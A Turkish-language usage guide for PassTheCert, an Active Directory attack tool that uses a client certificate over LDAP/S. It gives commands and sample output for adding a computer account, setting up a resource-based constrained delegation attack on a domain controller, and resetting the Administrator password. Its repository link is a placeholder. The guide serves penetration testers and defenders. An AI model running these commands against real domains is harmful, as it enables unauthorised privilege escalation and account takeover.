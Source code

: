 # PassTheCert Kullanım Kılavuzu

## Giriş
PassTheCert, Active Directory ortamlarında X.509 sertifikalarını kullanarak LDAP/S protokolleri aracılığıyla kimlik doğrulama ve saldırı gerçekleştirmek için kullanılan bir araçtır. PKINIT desteklenmediği durumlarda, bu araç saldırganların hedef sistemde yetki yükseltme işlemleri yapmasına olanak tanır.

PassTheCert, özellikle aşağıdaki saldırılar için tasarlanmıştır:
- **DCSync hakları verme**
- **Kaynak Tabanlı Kısıtlı Delegasyon (RBCD) saldırıları**
- **Etki alanına bilgisayar ekleme**
- **Kullanıcı parolasını sıfırlama**

---

## Gereksinimler
- Windows sistem veya C# çalıştırma desteği olan bir ortam
- Hedef sistemin LDAP/S portlarına erişim (TCP/389 veya TCP/636)
- Geçerli bir istemci sertifikası (örneğin, ESC8 saldırısıyla elde edilen bir sertifika)

---

## Özellikler
PassTheCert aşağıdaki işlemleri destekler:
- Sertifika ile LDAP kimlik doğrulaması
- LDAP protokolü üzerinden temel saldırı vektörleri
- StartTLS desteğiyle TCP/389 üzerinde çalışma

---

## Kullanım
### Komut Satırı Seçenekleri
- `--server`: Hedef LDAP sunucusu (örnek: `ad1.contoso.com`)
- `--cert-path`: Sertifika dosyasının yolu (örnek: `Z:\ad2.pfx`)
- `--add-computer`: Etki alanına yeni bir bilgisayar ekler
- `--rbcd`: Hedefin `msDS-AllowedToActOnBehalfOfOtherIdentity` özelliğini değiştirir
- `--reset-password`: Belirtilen hesabın parolasını sıfırlar

### Örnek Kullanımlar
#### 1. **Etki Alanına Yeni Bilgisayar Eklemek**
```bash
PassTheCert.exe --server ad1.contoso.com --cert-path Z:\ad2.pfx --add-computer --computer-name DESKTOP-1337$
```
- Bu komut, rastgele bir parola ile `DESKTOP-1337$` adında bir bilgisayar oluşturur.
- Çıktı örneği:
  ```
  No password given, generating random one.
  Generated password: Q2cpNOMhwlU2yZQBPAbJ1YY9M9XJIfBc
  Success
  ```

#### 2. **RBCD Saldırısı için msDS-AllowedToActOnBehalfOfOtherIdentity Değiştirme**
```bash
PassTheCert.exe --server ad1.contoso.com --cert-path Z:\ad2.pfx --rbcd --target "CN=AD2,OU=Domain Controllers,DC=contoso,DC=com" --sid "S-1-5-21-863927164-4106933278-53377030-3122"
```
- Bu komut, belirtilen hedef için `msDS-AllowedToActOnBehalfOfOtherIdentity` özelliğini günceller.
- Çıktı örneği:
  ```
  msDS-AllowedToActOnBehalfOfOtherIdentity attribute is empty
  You can clear it using arguments:
          --target "CN=AD2,OU=Domain Controllers,DC=contoso,DC=com" --restore clear
  Success
  ```

#### 3. **Kullanıcı Parolasını Sıfırlama**
```bash
PassTheCert.exe --server ad1.contoso.com --cert-path Z:\ad2.pfx --reset-password --target-user Administrator
```
- Bu komut, Administrator hesabının parolasını sıfırlar (gerekli izinlere sahip olmanız gerekir).

---

## Hata Ayıklama
Eğer PassTheCert çalıştırılırken hata alıyorsanız, aşağıdaki adımları kontrol edin:
1. **LDAP Portu**: Hedef sistemin TCP/389 veya TCP/636 portlarının açık olduğundan emin olun.
2. **Sertifika Geçerliliği**: Kullanılan sertifikanın geçerli ve hedef sistem tarafından kabul edildiğini doğrulayın.
3. **Yetki Eksikliği**: İşlemleri gerçekleştirmek için yeterli izinlere sahip bir hesap kullanın.

---

## Güvenlik Notları
Bu araç yalnızca güvenlik araştırmaları ve eğitim amaçlı kullanılmalıdır. Kötüye kullanım durumlarında etik ve yasal sorumluluk kullanıcıya aittir.

---

## İletişim
Bu araç hakkında daha fazla bilgi almak veya katkıda bulunmak için GitHub sayfasını ziyaret edebilirsiniz: [PassTheCert GitHub](https://github.com/YOUR-REPO/PASS-THE-CERT)
